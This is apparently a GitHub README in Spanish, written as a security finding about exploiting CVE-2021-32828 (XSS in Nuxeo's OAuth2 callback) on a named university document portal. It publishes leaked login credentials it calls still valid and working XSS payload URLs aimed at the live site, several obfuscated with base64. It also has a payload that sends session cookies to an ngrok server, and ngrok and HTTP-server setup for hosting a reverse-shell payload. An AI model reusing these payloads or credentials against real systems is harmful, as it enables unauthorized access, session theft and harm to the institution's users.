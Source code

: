 # Nuxeo-Vulnerable-a-XXS











Para poder capturar la informacion esnecesario crear un servidor donde se alojara el **Payload** con la Reverse Shell, para esto se necesita tener instalado y configurado Ngrok se puede hacer tal como se hace aqui https://github.com/Yonathan808/Iniciar-Servidor-Ngrok/blob/main/README.md

### Iniciar Servicios

Abre dos terminales o pestañas separadas para ejecutar los siguientes comandos:

1. **Iniciar túnel con Ngrok en el puerto 80:**

```bash
ngrok http 80
```

2. **Iniciar servidor web en el puerto 80:**

```bash
python3 -m http.server 80
```

Unicamente hay que cargar el payload en la misma carpeta donde creamos el servicio http





________________________________________


## Hallazgo: Nuxeo - XSS escalada a RCE (CVE-2021-32828)

### 1. Acceso inicial a la plataforma

Se accedió al portal institucional de Nuxeo mediante la siguiente URL:

https://documental.portaloas.udistrital.edu.co/nuxeo/login.jsp?requestedUrl=ui%2F

Allí se cargó correctamente la interfaz gráfica de inicio de sesión de Nuxeo.

![Interfaz gráfica login Nuxeo](/images/name/image-WOanJdHL.png)

Se utilizaron credenciales filtradas y aún válidas:

Usuario: desarrollooas  
Contraseña: desarrollooas2019

El navegador (Google Chrome) advirtió que dichas credenciales han sido comprometidas en filtraciones previas:

![Advertencia de Chrome sobre credenciales filtradas](/images/name/image-jJVecXAH.png)

---

### 2. Exploración y descubrimiento del motor web

Durante la navegación autenticada, se identificó la raíz del sistema bajo el motor Nuxeo Web Engine.

![Interfaz Nuxeo Web Engine](/images/name/image-bCg4hNS1.png)

Aunque no se logró identificar con precisión la versión exacta del sistema, se realizó una enumeración de directorios relevantes. Se encontró un patrón común: el uso de rutas relacionadas con OAuth, específicamente en la ruta:

/nuxeo/site/oauth2/

OAuth (Open Authorization) es un protocolo que permite el acceso controlado a recursos de usuario sin necesidad de compartir sus credenciales.

![Enumeración de directorios relevantes](/images/name/image-GTzFZFl1.png)

---

### 3. Identificación de vulnerabilidad (CVE-2021-32828)

Se investigaron vulnerabilidades conocidas relacionadas con Nuxeo y OAuth, encontrando la siguiente:

CVE-2021-32828: En versiones anteriores a la 11.5.109, la API REST /oauth2 es vulnerable a ataques Cross-Site Scripting (XSS). Esta vulnerabilidad puede ser escalada a Remote Code Execution (RCE) a través de la API de automatización.

Referencia oficial de GitHub Security Lab:  
https://securitylab.github.com/advisories/GHSL-2021-072-nuxeo

![Referencia CVE](/images/name/image-oXBJZByq.png)

El endpoint afectado es:  
/nuxeo/site/oauth2/{serviceProviderName}/callback

---

### 4. Prueba de concepto (XSS básico)

Se probó un payload XSS estándar directamente en el endpoint vulnerable:

https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/%3Cimg%20src%20onerror=alert(document.domain)%3E/callback

Este generó correctamente un alert en el navegador, confirmando la ejecución del código inyectado:

![Alerta generada por XSS exitoso](/images/name/image-KGStg2qU.png)

---

### 5. Intento de escalada a RCE (script externo)

Basado en el artículo técnico de Álvaro Muñoz publicado en el blog de GitHub, se intentó cargar un script remoto que ejecuta código JavaScript dinámico usando el hash de la URL:

http://localhost:8080/nuxeo/site/oauth2/<img src onerror=a=document.createElement('script');a.setAttribute('src',document.location.hash.substr(1));document.head.appendChild(a)>/callback#//attacker.ngrok.io/exploit.js

Este intento no funcionó, ya que el código fue tratado como texto plano.

---

### 6. Pruebas adicionales de evasión XSS

Se exploraron diferentes vectores de XSS para evadir posibles filtros. A continuación se enumeran las pruebas más relevantes y su resultado:

- IMG con eval + base64:  
  https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/<img src=x onerror=eval(atob("YWxlcnQoJ1hTUycp"))>/callback  
  Decodificado: alert('XSS')  
  Resultado: Exitoso

- SVG con onload:  
  https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/<svg onload=eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))>/callback  
  Decodificado: alert(document.cookie)  
  Resultado: Exitoso

- IMG con atributo hexadecimal:  
  https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/<img src=x o%6Eerror=alert(1)>/callback  
  Resultado: Exitoso

- IMG con acceso al DOM:  
  https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/<img src=x onerror=alert(document.body.innerHTML)>/callback  
  Resultado: Exitoso

De estas pruebas se concluyó que los payloads basados en esta plantilla son los más efectivos:

<img src=x onerror=eval(atob("COMANDO_EN_BASE64"))>

---

### 7. Recolección de datos vía XSS

Se preparó un entorno para capturar información enviada desde el navegador víctima.

Paso 1: Iniciar túnel con Ngrok

ngrok http 80

Paso 2: Iniciar servidor HTTP

python3 -m http.server 80

---

### 8. Ejecución del XSS con exfiltración de cookies

Se utilizó el siguiente payload para exfiltrar cookies:

https://documental.portaloas.udistrital.edu.co/nuxeo/site/oauth2/%3Cimg%20src=x%20onerror=eval(atob(%22aT1uZXcgSW1hZ2UoKTtpLnNyYz0iaHR0cHM6Ly9hNTZmYWE1ZDcyYjIubmdyb2stZnJlZS5hcHAvbG9nP2M9Iitkb2N1bWVudC5jb29raWU7%22))%3E/callback

Decodificado:

i = new Image();  
i.src = "https://a56faa5d72b2.ngrok-free.app/log?c=" + document.cookie;

La solicitud fue recibida correctamente en el servidor controlado por el atacante:

![Payload con base64 en la URL](/images/name/image-D8bfOXVj.png)  
![Petición recibida en el servidor remoto](/images/name/image-zSdZcElN.png)

---

### 9. Análisis de impacto

Se compararon las cookies recibidas con las cookies del navegador víctima. Se confirmó que:

- Las cookies no tienen la bandera HttpOnly.
- Las cookies no tienen la bandera Secure.
- Son accesibles desde JavaScript.
- Fueron enviadas exitosamente al servidor externo.

![Comparación cookies víctima vs capturadas](/images/name/image-ynoDslmW.png)

---

### Conclusión

La instancia Nuxeo expuesta en `documental.portaloas.udistrital.edu.co` contiene una vulnerabilidad crítica de tipo XSS en el endpoint `/site/oauth2/{serviceProviderName}/callback`. Esta vulnerabilidad (CVE-2021-32828) permite la ejecución arbitraria de código JavaScript y la exfiltración de información sensible como cookies de sesión.

Al no contar con las banderas de seguridad adecuadas (`HttpOnly`, `Secure`), las cookies pueden ser robadas y utilizadas para secuestrar sesiones de usuarios autenticados. Si la sesión tiene privilegios elevados, esto podría derivar en la ejecución remota de comandos o acciones críticas en el sistema afectado.

Referencia técnica:  
https://securitylab.github.com/advisories/GHSL-2021-072-nuxeo





